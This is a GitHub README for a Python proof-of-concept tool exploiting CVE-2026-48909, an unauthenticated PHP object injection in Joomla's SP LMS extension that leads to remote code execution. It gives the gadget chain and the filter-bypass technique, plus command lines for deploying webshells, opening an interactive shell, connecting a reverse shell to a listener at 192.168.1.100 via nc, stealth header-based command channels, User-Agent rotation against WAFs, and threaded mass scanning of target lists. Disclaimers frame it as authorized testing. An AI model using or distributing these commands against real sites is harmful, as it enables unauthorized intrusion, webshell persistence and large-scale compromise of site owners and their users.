

<div align="center">

# CVE-2026-48909

### Joomla SP LMS — Unauthenticated PHP Object Injection → RCE

[](#installation)
[](#version-history)
[](#vulnerability-details)
[](#disclaimer)
[](#installation)

**Proof-of-concept assessment tool for CVE-2026-48909**  
Author: **Sudeepa Wanigarathna**


</div>

---

> [!IMPORTANT]
> **Authorized use only.** This tool is for security research, education, and testing systems you own or have explicit written permission to assess. Unauthorized access to computer systems is illegal. The author assumes no liability for misuse.

---

## Table of Contents

- [Overview](#overview)
- [Vulnerability Details](#vulnerability-details)
- [Features](#features)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Usage Guide](#usage-guide)
- [Command Reference](#command-reference)
- [Payload Types](#payload-types)
- [Attack Chain](#attack-chain)
- [Output Examples](#output-examples)
- [Troubleshooting](#troubleshooting)
- [Repository Layout](#repository-layout)
- [Version History](#version-history)
- [Disclaimer](#disclaimer)
- [Author](#author)

---

## Overview

CVE-2026-48909 is a critical **unauthenticated PHP Object Injection** in the Joomla **SP LMS** extension. This tool implements the full attack chain so security professionals can validate impact in lab or authorized environments.

It covers detection, path discovery, payload delivery, interactive post-exploitation (where permitted), mass assessment, and optional cleanup.

---

## Vulnerability Details

| Attribute | Value |
|---|---|
| **CVE ID** | CVE-2026-48909 |
| **CVSS** | 9.5 (Critical) |
| **Attack Vector** | Network — unauthenticated |
| **Impact** | Remote Code Execution |
| **Affected Product** | Joomla SP LMS |
| **Affected Versions** | 1.0.0 – 4.1.3 |
| **Patched Version** | SP LMS **4.1.4+** |
| **Gadget Chain** | Requires Joomla **&lt; 5.2.2** |

### Compatibility Matrix

| Component | Version | RCE |
|---|---|---|
| SP LMS | &lt; 4.1.4 | Vulnerable |
| SP LMS | ≥ 4.1.4 | Patched |
| Joomla | &lt; 5.2.2 | Gadget chain usable |
| Joomla | ≥ 5.2.2 | Gadget chain patched |

---

## Features

### Core

| Capability | Description |
|---|---|
| Unauthenticated exploit | No credentials required |
| Multiple payloads | 7 webshell / execution variants |
| Interactive shell | Command history session after deploy |
| Path discovery | Automatic writable path probing |
| Cleanup | Remove deployed webshell after tests |

### Assessment & Ops

| Capability | Description |
|---|---|
| Mass scanning | Multi-threaded target lists (1000+) |
| Proxy support | HTTP/SOCKS (Burp, ZAP, etc.) |
| Reverse shell | Listener-based payloads |
| Stealth mode | Header / POST-oriented command channels |
| Randomization | UUID shell names, User-Agent rotation |
| Reporting | Export as JSON, HTML, or CSV |
| Detection assists | Joomla version checks, `--check-only`, `--safe-mode` |

### Evasion Notes

- Avoids characters blocked by Joomla’s `cmd` filter where possible  
- Hex-encoded PHP write path to reduce base64 padding / slash issues  
- Configurable delays and rotating User-Agents  
- Retry logic across multiple injection / path candidates  

---

## Installation

### Prerequisites

- Python **3.6+**
- `pip`
- Network reachability to target(s) under test

### Setup

```bash
cd exploit

python3 -m venv venv
source venv/bin/activate          # Windows: venv\Scripts\activate

pip install -r requirements.txt

python3 "CVE-2026-48909 v3.0.py" --help
```

### Dependencies

```text
requests>=2.31.0
urllib3>=2.0.0
```

> `argparse` ships with the Python standard library; it does not need to be installed via pip.

---

## Quick Start

> Replace `https://target.example` with a **lab or authorized** target only.

### Single target — discover path + interactive shell

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --find-path --interactive
```

### Safe checks (no exploitation)

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --check-only
python3 "CVE-2026-48909 v3.0.py" https://target.example --safe-mode
```

### Mass scan

```bash
python3 "CVE-2026-48909 v3.0.py" --targets targets.txt --threads 20 --export results.html --export-format html
```

### Reverse shell (authorized lab)

```bash
# Listener
nc -lvnp 4444

# Exploit host
python3 "CVE-2026-48909 v3.0.py" https://target.example \
  --find-path \
  --shell-type reverse \
  --reverse-host 192.168.1.100 \
  --reverse-port 4444
```

---

## Usage Guide

### Path discovery

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --find-path
```

### Known writable path

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --path /var/www/html/tmp/shell.php
```

### Interactive session

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --find-path --interactive
```

### One-shot command

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --path /tmp/x.php --cmd "id"
```

### Stealth payload + interactive

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --shell-type stealth --find-path --interactive
```

### Proxy (Burp / ZAP)

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example \
  --find-path --interactive \
  --proxy http://127.0.0.1:8080 \
  --insecure
```

### Cleanup

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --cleanup /tmp/x.php
```

### Target list format

```text
https://lab-a.example
https://lab-b.example
https://lab-c.example
```

```bash
python3 "CVE-2026-48909 v3.0.py" -T targets.txt --threads 50 --export scan.json
```

---

## Command Reference

### Target

| Argument | Description |
|---|---|
| `target` | Single target URL |
| `--targets`, `-T FILE` | File of targets (one URL per line) |
| `--path PATH` | Absolute server path for webshell |
| `--shell-type TYPE` | `minimal`, `standard`, `stealth`, `base64`, `full`, `reverse`, `blindshell` |
| `--shell-name NAME` | Webshell filename (default: `x.php`) |

### Network

| Argument | Description |
|---|---|
| `--timeout SECONDS` | Request timeout (default: `15`) |
| `--insecure` | Skip TLS certificate verification |
| `--proxy URL` | e.g. `http://127.0.0.1:8080` |
| `--random-ua` | Rotate User-Agent (enabled by default) |
| `--delay SECONDS` | Delay between requests |

### Reverse shell

| Argument | Description |
|---|---|
| `--reverse-host HOST` | Listener host |
| `--reverse-port PORT` | Listener port |

### Modes

| Argument | Description |
|---|---|
| `--interactive`, `-i` | Interactive shell after deploy |
| `--check-only` | Vulnerability check only |
| `--safe-mode` | Non-destructive testing |
| `--find-path` | Auto-discover writable path |
| `--cmd COMMAND` | Run one command and exit |
| `--cleanup PATH` | Remove webshell at path |
| `--cleanup-after` | Cleanup after exploitation |

### Mass scan / report

| Argument | Description |
|---|---|
| `--threads NUM` | Worker threads (default: `10`) |
| `--export FILE` | Output path for results |
| `--export-format FORMAT` | `json`, `html`, `csv` (default: `json`) |

### Logging

| Argument | Description |
|---|---|
| `--log-file FILE` | Write logs to file |
| `--quiet`, `-q` | Quiet mode |
| `--verbose`, `-v` | Verbose output |
| `--no-banner` | Hide banner |

---

## Payload Types

| Type | Behavior | Typical use |
|---|---|---|
| `minimal` | Compact GET-based execution | Tight space / quick test |
| `standard` | GET + POST `cmd` (default) | General assessments |
| `stealth` | Command via `X-Cmd` header | Reduce URL logging |
| `base64` | `eval(base64_decode(...))` via POST | Filter evasion labs |
| `full` | GET/POST + base64 channel | Broader control |
| `reverse` | Connect-back shell | Persistent lab access |
| `blindshell` | Alternate inclusion / execution pattern | Constrained environments |

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --shell-type minimal --find-path
python3 "CVE-2026-48909 v3.0.py" https://target.example --shell-type stealth --find-path -i
python3 "CVE-2026-48909 v3.0.py" https://target.example --shell-type reverse \
  --reverse-host 10.0.0.1 --reverse-port 4444 --find-path
```

---

## Attack Chain



### Technical summary

1. **Sink** — `components/com_splms/models/cart.php` unserializes a base64-decoded `lmsOrders` cookie.  
2. **Gadget** — `Joomla\CMS\Log\Logger\FormattedtextLogger::__destruct()` triggers a filesystem write.  
3. **Payload** — PHP body hex-encoded, length-padded to avoid filtered base64 characters (`/`, `=`, `+`).  
4. **Execution** — Dropped script is requested to run OS commands.

### Input filter bypass (high level)

Joomla’s `cmd` filter may strip `/`, `=`, and `+`. This tool compensates by:

- Encoding write content as hex  
- Padding serialized / base64 forms to avoid illegal characters  
- Iterating candidates until a filter-safe payload is produced  

---

## Output Examples

### Interactive session

```text
shell> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

shell> whoami
www-data

shell> pwd
/var/www/html

shell> exit
```

### JSON export (shape)

```json
{
  "timestamp": "2026-07-16T10:30:00.123456",
  "target": "https://lab.example",
  "shell_path": "/tmp/x_abc123def.php",
  "shell_url": "https://lab.example/tmp/x_abc123def.php",
  "shell_type": "standard",
  "vulnerable": true,
  "exploited": true,
  "joomla_version": "4.3.2",
  "detected_paths": [
    "/tmp/x_abc123def.php",
    "/images/x_abc123def.php",
    "/cache/x_abc123def.php"
  ],
  "author": "Sudeepa Wanigarathna",
  "tool_version": "3.0"
}
```

### One-shot command

```bash
python3 "CVE-2026-48909 v3.0.py" https://target.example --path /tmp/x.php --cmd "id"
```

---

## Troubleshooting

| Symptom | What to try |
|---|---|
| Could not generate filter-safe payload | Different `--path`, or `--find-path`; avoid unusual path characters |
| Shell verification failed | Raise `--timeout`; try `--shell-type standard`; confirm `system()` / similar not disabled; verify writability |
| Target does not appear vulnerable | SP LMS ≤ 4.1.3, Joomla &lt; 5.2.2, `com_splms` present; inspect WAF blocks |
| HTTP 500 | `--insecure`, `--timeout 30`, review application/server logs |
| Proxy connection refused | Confirm proxy listening; URL scheme/host/port correct |
| TLS verification failed | Add `--insecure` for lab endpoints with broken certs |

### Debug workflow

```bash
# Verbose + file log
python3 "CVE-2026-48909 v3.0.py" https://target.example --find-path -v --log-file debug.log

# Through Burp
python3 "CVE-2026-48909 v3.0.py" https://target.example --find-path \
  --proxy http://127.0.0.1:8080 --insecure -v

# Non-destructive first
python3 "CVE-2026-48909 v3.0.py" https://target.example --safe-mode
```

---

## Repository Layout

```text
exploit/
├── CVE-2026-48909 v3.0.py   # Main tool (v3.0)
├── requirements.txt         # Python dependencies
├── README.md                # This file
└── venv/                    # Local virtualenv (optional, not committed)
```

Optional additions for a public release:

```text
targets.txt.example
docs/technical-details.md
examples/basic-exploit.sh
examples/mass-scan.sh
```

---

## Version History

### v3.0.0 — Ultimate Edition (July 2026)

- Mass scanning with threading  
- HTTP/SOCKS proxy support  
- Reverse shell payloads  
- WAF-oriented evasion helpers  
- Interactive stealth shell  
- Auto-cleanup options  
- JSON / HTML / CSV reporting  
- Extended writable path list  
- Joomla version detection assists  
- Safe mode & User-Agent rotation  
- Configurable request delays  

### v2.1 — Professional Edition (July 2026)

- Payload generation fixes  
- Stronger error handling & logging
  

---

## Disclaimer

This project is provided **as-is** for **defensive security research** and **authorized penetration testing**.

By using this software you agree that:

1. You will only target systems you own or are explicitly authorized to test.  
2. You understand applicable computer-abuse and data-protection laws.  
3. The author and contributors are **not responsible** for damage, data loss, or legal consequences from misuse.  

If you discover this vulnerability in the wild, follow responsible disclosure practices and coordinate with the vendor / CERT where appropriate.

---

## Author

**Sudeepa Wanigarathna**  
Security researcher · Ethical hacking · Vulnerability research · Python tooling

---

## Support

- Star the repo if it helps your research  
- Open issues for bugs or false positives  
- PRs welcome for docs, detection accuracy, and authorized-lab UX  

---

<div align="center">

**For authorized security testing only.**

</div>
